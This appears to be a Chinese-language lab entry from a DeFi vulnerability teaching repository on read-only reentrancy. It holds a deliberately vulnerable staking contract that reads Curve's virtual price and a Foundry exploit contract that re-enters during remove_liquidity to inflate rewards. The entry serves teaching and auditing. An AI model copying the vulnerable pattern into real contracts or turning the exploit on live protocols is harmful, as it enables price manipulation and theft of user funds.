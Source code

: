 # 只读可重入  
[ReadOnlyReentrancy.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/ReadOnlyReentrancy.sol)  

**名称：** 只读可重入性漏洞  

**描述：**  
只读重入性漏洞是智能合约设计的一个缺陷，这允许攻击者利用函数的“只读”特性对合约的状态进行意外的更改。  
具体来说，当攻击者通过ICurve合约的remove_liquidity函数触发ExploitContract中的receive函数时，就会出现这种漏洞。这是通过一个安全的智能合约“A”的外部调用实现的，该调用会调用攻击者合约的fallback()函数。  
通过这种攻击方式，攻击者获得了在fallback()函数中执行代码的能力，针对与合约“A”间接相关的合约“B”。合约“B”从合约“A”中获取出LP代币的价格，因此容易受到重入攻击的影响，导致价格被操纵和意外更改。  

**解决方法：**  
避免在只读函数中进行任何的状态修改操作。  

**Makerdao 示例：**  
```solidity
// 如果在状态修改pool函数执行期间被调用，这将被回滚。
if (nonreentrant) {
uint256[2] calldata amounts;
CurvePoolLike(pool).remove_liquidity(0, amounts);
}
```
**参考**  
https://twitter.com/1nf0s3cpt/status/1590622114834706432  
https://chainsecurity.com/heartbreaks-curve-lp-oracles/  
https://medium.com/@zokyo.io/read-only-reentrancy-attacks-understanding-the-threat-to-your-smart-contracts-99444c0a7334  
https://www.youtube.com/watch?v=0fgGTRlsDxI  


**VlunContract:**  
```solidity
contract VulnContract {
    IERC20 public constant token = IERC20(LP_TOKEN);
    ICurve private constant pool = ICurve(STETH_POOL);

    mapping(address => uint) public balanceOf;

    function stake(uint amount) external {
        token.transferFrom(msg.sender, address(this), amount);
        balanceOf[msg.sender] += amount;
    }

    function unstake(uint amount) external {
        balanceOf[msg.sender] -= amount;
        token.transfer(msg.sender, amount);
    }

    function getReward() external view returns (uint) {
        //根据池子LP代币的当前虚拟价格进行奖励代币
        uint reward = (balanceOf[msg.sender] * pool.get_virtual_price()) /
            1 ether;
        // 省略用于转移奖励代币的代码
        return reward;
    }
}
```
**如何测试：**  
`forge test --contracts src/test/ReadOnlyReentrancy.sol -vvvv`  

```solidity
// 测试VulnContract合约中只读重入漏洞的函数
function testPwn() public {
    // 通过漏洞合约将10个ether质押到VulnContract合约
    hack.stakeTokens{value: 10 ether}(); 
    // 对VulnContract合约执行只读重入攻击
    hack.performReadOnlyReentrnacy{value: 100000 ether}();
}

// 用于利用 VulnContract 中只读重入漏洞的合约
contract ExploitContract {
    //与ICurve和IERC20合约交互的接口
    ICurve private constant pool = ICurve(STETH_POOL);
    IERC20 public constant lpToken = IERC20(LP_TOKEN);
    // 待攻击的VulnContract合约
    VulnContract private immutable target;

    // 构造函数用于初始化被攻击的VulnContract合约
    constructor(address _target) {
        target = VulnContract(_target);
    }

    // 质押LP代币到VulnContract合约的函数
    function stakeTokens() external payable {
        // 作为流动性添加到Curve池中的金额
        uint[2] memory amounts = [msg.value, 0];
        // 向Curve池子添加流动性并且接受LP代币作为奖励
        uint lp = pool.add_liquidity{value: msg.value}(amounts, 1);
        // 记录添加流动性后的LP代币的价格
        console.log(
            "LP token price after staking into VulnContract",
            pool.get_virtual_price()
        );
        // 授权VulnContract合约可以代表当前合约花费LP代币
        lpToken.approve(address(target), lp);
        // 将LP代币质押到VulnContract合约中
        target.stake(lp);
    }

    // 对VulnContract合约进行只读重入攻击的函数
    function performReadOnlyReentrnacy() external payable {
        // 作为流动性添加到Curve池中的金额
        uint[2] memory amounts = [msg.value, 0];
        // 向Curve池子添加流动性并且接受LP代币作为奖励
        uint lp = pool.add_liquidity{value: msg.value}(amounts, 1);
        // 记录移除流动性前LP代币的价格
        console.log(
            "LP token price before remove_liquidity()",
            pool.get_virtual_price()
        );
        // 移除流动性时应当接收的最小代币数量
        uint[2] memory min_amounts = [uint(0), uint(0)];
        // 从Curve池子中移除流动性，这将触发receive函数
        pool.remove_liquidity(lp, min_amounts);
        // 记录移除流动性后LP代币的价格
        console.log(
            "--------------------------------------------------------------------"
        );
        console.log(
            "LP token price after remove_liquidity()",
            pool.get_virtual_price()
        );
        // 记录将从VulnContract收到的奖励金额
        uint reward = target.getReward();
        console.log("Reward if Read-Only Reentrancy is not invoked: ", reward);
    }

    //从Curve池中移除流动性时将触发的回退函数
    receive() external payable {
        // 记录在移除流动性期间的LP代币价格
        console.log(
            "--------------------------------------------------------------------"
        );
        console.log(
            "LP token price during remove_liquidity()",
            pool.get_virtual_price()
        );
        // 记录在触发只读重入攻击的情况下可以获得的奖励
        uint reward = target.getReward();
        console.log("Reward if Read-Only Reentrancy is invoked: ", reward);
    }
}
```
**红色框：** 攻击成功，价格被操控  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Ff974125e-47d0-42ca-89bc-1d9ef7608094%2FUntitled.png?table=block&id=db05153a-1fed-46f6-91fe-6a1caae5e036&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)

![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fc578eed0-e82d-4179-8cd2-75c3e921fdf9%2FUntitled.png?table=block&id=a9136681-055a-42b9-80e0-4f2b2ebbe0d8&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)